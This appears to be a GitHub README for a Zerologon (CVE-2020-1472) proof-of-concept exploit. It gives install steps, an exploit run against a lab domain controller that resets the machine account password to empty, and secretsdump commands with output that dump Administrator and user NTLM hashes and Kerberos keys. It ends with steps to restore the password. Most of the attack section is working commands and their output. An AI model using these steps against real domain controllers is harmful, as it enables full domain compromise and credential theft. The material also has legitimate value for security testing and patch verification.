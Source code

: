 # CVE-2020-1472 - Zero-Logon POC
<p align='center'>
  <img src='PoC - CVE-2020-1472.png' alt="HTB">
</p>
![alt text](https://github.com/harshil-shah004/zerologon-CVE-2020-1472/blob/master/PoC%20-%20CVE-2020-1472.png)

This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  <img src='./Screenshots/install-req.png' alt="HTB">
</p>
    
## Before Zerologon 

<p align='center'>
  <img src='./Screenshots/before-zerologon.png alt="HTB">
</p>

Unable to dump secrets!

## Performing Zerologon Attack!

    huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
    Performing authentication attempts...
    ==================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!


<p align='center'>
  <img src='./Screenshots/Screenshot from 2023-12-28 15-35-49.png' alt="HTB">
</p>

## After Zerologon
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
    [*] Kerberos keys grabbed
    huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
    huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
    huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
    [*] Cleaning up... 
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
    [*] Cleaning up... 

<p align='center'>
  <img src='./Screenshots/after-zerologon1.png' alt="HTB">
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
